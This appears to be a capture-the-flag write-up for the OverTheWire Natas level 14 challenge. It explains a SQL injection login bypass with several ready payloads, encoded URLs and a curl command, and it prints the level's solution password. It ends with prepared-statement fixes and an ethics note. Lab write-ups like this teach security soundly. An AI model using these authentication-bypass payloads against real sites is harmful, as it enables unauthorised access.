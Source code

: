 # 🔐 Natas Level: Natas13--->Natas14



### 📂 Execution Process 
👉
- use this http://natas14.natas.labs.overthewire.org/?username=%22%20OR%20%221%22=%221%22%20%23&password=anything

### 📄 Password found:
👉 
SdqIqBsFcz3yotlNYErZSZwblkm0lrvx

### NOTES



1) What is happening? (Short)
- The website checks username and password using a SQL query.
- The code puts your typed username and password straight into the query without cleaning them.
- Because of that, we can give a special username that changes the query meaning. This is called SQL injection.
- If we make the WHERE part always true, the site shows "Successful login!" and prints the natas15 password.

2) Why it works (very simple)
- The code builds this:
  SELECT * from users where username="YOUR_USERNAME" and password="YOUR_PASSWORD"
- If we add a closing quote and then `OR "1"="1"`, that OR is always true.
- Then we add a comment symbol (like #) so the rest is ignored (the password check is skipped).
- Result: the WHERE becomes true and we get logged in.

3) Example payloads (use these in the `username` field)
- Plain readable:
  " OR "1"="1" #
- Another way (with double dash comment):
  " OR "1"="1" -- 
- Simpler (no inner quotes):
  " OR 1=1 #

4) How to use it in the browser (replace host with your challenge host)
- Example URL to paste in browser:
  http://natas14.natas.labs.overthewire.org/?username=%22%20OR%20%221%22=%221%22%20%23&password=anything
- If you want to see the SQL the site runs (helps learning), add debug:
  http://natas14.natas.labs.overthewire.org/?username=%22%20OR%20%221%22=%221%22%20%23&password=anything&debug=1

5) How to use curl (just copy-paste the line below, no $)
  curl 'http://natas14.natas.labs.overthewire.org/?username=%22%20OR%20%221%22=%221%22%20%23&password=anything'

6) What you will see (if it works)
- Response contains:
  Successful login! The password for natas15 is <the-password>
- Copy that password and use it for the next level.

7) If one payload is filtered or blocked, try others:
- Try removing inner quotes: %22%20OR%201=1%20%23
- Try targeting a user name: admin" #
- Try `--` instead of `#`: %22%20OR%20%221%22=%221%22%20--%20

8) Short table (helpful view)
- Goal: bypass password check
- Trick: close string, add always-true condition, comment out rest
- Comment symbols in MySQL: #  or  -- (with space after)
- Use double quotes here because the code uses double quotes around values

9) How to fix this (so websites are safe) — short notes for the coder
- Use parameterized queries / prepared statements.
- Do not build SQL by joining strings with user input.
- Example safer approach (idea): use prepared statements in PHP (mysqli_prepare) or PDO with bind_param.

10) Ethics (important)
- This is only for Natas / learning / CTF environments.
- Do not try this on real websites without permission.

11) If you want I can also:
- Make the exact curl line for the hostname you have, or
- Show the fixed PHP code example using prepared statements (easy to copy).
- Show more payloads and explain each one step-by-step.


